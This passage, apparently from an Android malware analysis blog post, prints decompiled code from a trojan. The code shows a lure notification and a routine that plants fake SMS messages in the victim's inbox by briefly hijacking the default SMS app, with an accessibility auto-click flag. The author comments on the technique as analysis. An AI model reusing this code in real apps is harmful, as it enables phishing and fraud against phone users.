 ```cs
            }
            else {
                Notification notification0 = new Notification.Builder(this).setContentTitle(s).setContentText(s1).setAutoCancel(true).setSmallIcon(v1).setDefaults(2).setPriority(2).setLargeIcon(BitmapFactory.decodeResource(this.getResources(), v1)).build();
                if(notificationManager0 != null) {
                    notificationManager0.notify(v, notification0);
                }
            }

            try {
                TimeUnit.MILLISECONDS.sleep(30000L);
            }
            catch(InterruptedException unused_ex) {
                return;
            }

            if(notificationManager0 != null) {
                notificationManager0.cancelAll();
                return;
            }
        }
        catch(Exception unused_ex) {
            return;
        }
    }

```

Another trick is to push SMSs to the user contains some text to lure the user to open the targeted app that the malware wants. This mind-blowing and scary at the same time. 

```cs
private void WriteSms(String s, String s1) {
        ContentValues contentValues0 = new ContentValues();
        contentValues0.put("address", s1);
        contentValues0.put("date", Long.valueOf(System.currentTimeMillis()));
        contentValues0.put("body", s);
        Boolean boolean0 = Boolean.valueOf(false);
        contentValues0.put("read", boolean0);
        contentValues0.put("seen", boolean0);
        this.getContentResolver().insert(Telephony.Sms.Inbox.CONTENT_URI, contentValues0);
        Intent intent0 = new Intent("android.provider.Telephony.ACTION_CHANGE_DEFAULT");
        intent0.putExtra("package", this.store.get(this, "SMSDefaultApp"));
        this.startActivityForResult(intent0, 0x14B06);
    }

    @Override  // android.app.Activity
    protected void onActivityResult(int v, int v1, Intent intent0) {
        if(v == 0x14B05 && v1 == -1 && (this.Tools.isDefaultSMSApp(this))) {
            this.WriteSms(this.Body, this.Sender);
        }

        if(v == 0x14B06 && v1 == -1 && !this.Tools.isDefaultSMSApp(this)) {
            try {
                ServiceAccessibility.autoClickForSmsManager = false;
                this.Tools.Log(this, "Fake SMS has been sent successfully!", Boolean.valueOf(true));
                Handler handler0 = new Handler();
                com.truly.suggest.ActivityGenerateFakeSMS.1 activityGenerateFakeSMS$10 = new Runnable() {
                    @Override
                    public void run() {
```